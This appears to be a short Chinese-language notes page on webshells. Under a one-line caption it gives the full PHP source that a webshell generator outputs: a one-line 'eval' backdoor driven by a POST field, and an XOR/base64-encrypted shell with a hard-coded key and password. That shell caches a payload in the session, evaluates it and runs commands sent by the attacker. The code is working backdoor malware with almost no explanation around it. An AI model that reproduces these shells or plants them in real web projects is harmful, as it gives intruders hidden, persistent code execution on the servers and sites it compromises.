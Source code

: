 ![image-20230815143232725](img/WebShell/image-20230815143232725.png)

PHP_EVAL_XOR_BASE64 生成的 php 文件：

```php
<?php
eval($_POST["pass"]);
```

PHP_XOR_BASE64

```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='pass';
$payloadName='payload';
$key='3c6e0b8a9c15224a';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}

```
